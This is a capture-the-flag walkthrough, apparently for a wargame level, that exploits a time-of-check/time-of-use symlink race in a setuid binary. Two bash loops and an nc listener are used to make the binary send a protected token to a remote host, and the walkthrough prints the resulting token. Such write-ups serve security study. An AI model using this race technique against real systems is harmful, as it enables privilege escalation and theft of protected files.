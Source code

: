 ##Level 10

In this level, we have an executable which will send a file to a remote host. ls -l

        -rwsr-s---+ 1 flag10 level10 8617 Mar  5  2016 level10
        -rw-------  1 flag10 flag10    26 Mar  5  2016 token
We can create a symlink to try to read the content in the token file (symlink race)

ln -s /home/user/level10/token /tmp/flag
Now let's try to send my file to the server

./level10 /tmp/flag 192.168.56.101
    You don't have access to /tmp/flag
cat /tmp/flag
        cat: /tmp/flag: Permission denied
Nope, still unable to execute my flag and to send it to a server

To open a port in your machine: nc -l 6969

let's get the executable to my host with scp

scp -P 4242 level10@192.168.56.101:/tmp/flag /mnt/nfs/homes/emaugale/Desktop, So you have to find a way to make your file accessible to the server.
when we use ltrace, we can see that the executable will first try to access our file and then read the file's content. -> Do a /tmp/flag file with nothing on it when accessed; we can delete it and recreate one, which will be a symlink to the token file, launch our server, and print the result

```bash
    while true;
        do
        touch /tmp/link
        rm -f /tmp/link
        ln -s /home/user/level10/token /tmp/link
        rm -f /tmp/link
        done
```

```bash
    while true;
    do
    /home/user/level10/level10 /tmp/link 192.168.56.101 2> /dev/null
    done
...
bash /tmp/script1.sh & bash /tmp/script2.sh
```

Check flag.Here is your token : feulo4b72j7edeahuete3no7c
